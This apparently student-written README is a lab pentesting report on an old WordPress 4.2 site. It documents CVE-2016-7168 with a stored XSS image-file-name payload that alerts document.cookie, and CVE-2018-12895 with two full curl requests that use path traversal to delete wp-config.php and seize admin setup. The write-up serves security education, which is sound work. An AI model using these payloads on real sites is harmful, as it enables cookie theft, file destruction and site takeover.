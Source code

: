 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 Authenticated Stored XSS Via Image File Name
  - [ ] Summary: 
    - Vulnerability types: XSS (stored), Social Engineering
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln1.gif
  - [ ] Steps to recreate: Only tested in Linux. Use social engineering to provide image file to admin that contains malicious HTML/script in the image name (such as the example in Assets [1.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#11-example-malicious-image-file-name-vulnimg-srca-onerroralertdocumentcookiejpg)) and get admin to upload it to the wordpress site. When users view the page containing the uploaded attachment, the HTML/script stored in the image will execute. Possibly restricted to Linux and Mac OS as Windows disallows characters such as "<" in file names.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    - [wpscan page](https://wpscan.com/vulnerability/e84eaf3f-677a-465a-8f96-ea4cf074c980)
### 2. CVE-2018-12895 Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types: Improper Authentication (leads to arbitrary file deletion)
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln2.gif
  - [ ] Steps to recreate: As a user with Author privileges, upload a image. Then navigate to the page to edit the image ```http://192.168.33.10/wp-admin/post.php?post=17&action=edit```(replace ?post parameter with the numerical id of the image that was uploaded, can be seen in the URL as the ?item parameter when viewing the image from the media tab). On this page, copy the cookies and the wpnonce value from the post form in the HTML into the appropriate places in the curl command in Assets [2.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#21-example-command-to-set-the-image-thumbnail-as-the-file-to-be-maliciously-deleted-in-this-case-deleting-the-wp-configphp-file-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actioneditattachment_wpnonced4ea7fca1dthumbwp-configphp). Send this curl command, then find the wpnonce value from the file deletion form and place it into the curl command in Assets [2.2](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#22-curl-request-to-delete-image-and-newly-associated-thumbnail-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actiondelete_wpnonce593d226e9c). When this command is sent it will delete the file that was associated with the image file as its thumbnail because Wordpress fails to make the appropriate checks if this file actually is the image thumbnail and should be deleted. In this example specifically, deleting wp-config.php can allow a user to escalate privileges as Wordpress mistakenly thinks the site has not been configured at all due to the missing config file, and it will prompt the user to create new admin credentials.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [wpscan page](https://wpscan.com/vulnerability/42ab2bd9-bbb1-4f25-a632-1811c5130bb4)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
### [1.1] (example malicious image file name): ```vuln\<img src=a onerror=alert(document.cookie)>.jpg```
### [2.1] (example command to set the image thumbnail as the file to be maliciously deleted, in this case deleting the wp-config.php file): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=editattachment&_wpnonce=d4ea7fca1d&thumb=../../../../wp-config.php'```
### [2.2] (curl request to delete image and newly associated "thumbnail"): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=delete&_wpnonce=593d226e9c'```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with ScreenToGif.

## Notes

None, although of course it was necessary to set up a new Wordpress site after deleting the wp-config.php file as a part of demonstrating vulnerability 2 (Authenticated Arbitrary File Deletion).

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
